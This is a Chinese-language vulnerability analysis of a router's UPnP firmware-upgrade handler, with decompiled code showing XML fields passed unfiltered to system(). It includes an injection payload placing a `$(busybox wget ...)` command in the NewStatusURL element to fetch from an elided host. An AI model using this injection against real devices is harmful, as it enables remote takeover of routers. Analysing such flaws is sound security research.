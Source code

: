 ![image-20220326120606986](https://s2.loli.net/2022/03/26/pQCRYJBG54Ehj6u.png)

跳转到如下图所示，找到了upnp 的关键代码

![image-20220326120630019](https://s2.loli.net/2022/03/26/mPkRHdyWbzotKGT.png)

可以分析出来 其中a0 参数是会的内容是会传到system()中执行的。因此可以实现命令注入
 snprintf(a0,0x400,“upg -g -U %s -t ‘1 Firmware Upgrade Image’ -c upnp -r %s -d -”,a3)

newstatusurl这个节点值为 `<NewStatusURL>$(busybox wget -g xxxx ;xx;xx)</NewStatusURL>`

```bash
snprintf(a0,0x400,"upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -",a3)
system(a0)
```

其中a0是被拷贝的字符串的地址，也是system调用的第一个参数，这意味着路由器会执行`system(a0)`指令，达到控制该路由器的目的。例如在本文的exp中，执行的是wget指令。

a0被赋值之后就直接用system函数执行了，中间没有进行任何过滤，导致了任意命令执行。

```
int FUN_0040749c(int param_1)
{
  int iVar1;
  char *local_418;
  char *local_414;
  char acStack1040 [1028];
 
  iVar1 = ATP_XML_GetChildNodeByName
                    (*(int *)(param_1 + 0x2c),"NewDownloadURL",(int *)0x0,&local_418);
  if (((iVar1 == 0) && (local_418 != (char *)0x0)) &&
     (iVar1 = ATP_XML_GetChildNodeByName
                        (*(int *)(param_1 + 0x2c),"NewStatusURL",(int *)0x0,&local_414), iVar1 == 0)
     ) {
    if (local_414 != (char *)0x0) {
      snprintf(acStack1040,0x400,"upg -g -U %s -t \'1 Firmware Upgrade Image\' -c upnp -r %s -d -b",
               local_418,local_414);
      system(acStack1040);
    }
  }
  return iVar1;
}
```



### snprintf()

```
int snprintf(char *str, size_t size, const char *format, ...)
```

 设将可变参数(...)按照 format 格式化成字符串，并将字符串复制到 str 中，size 为要写入的字符的最大数目，超过 size 会被截断。

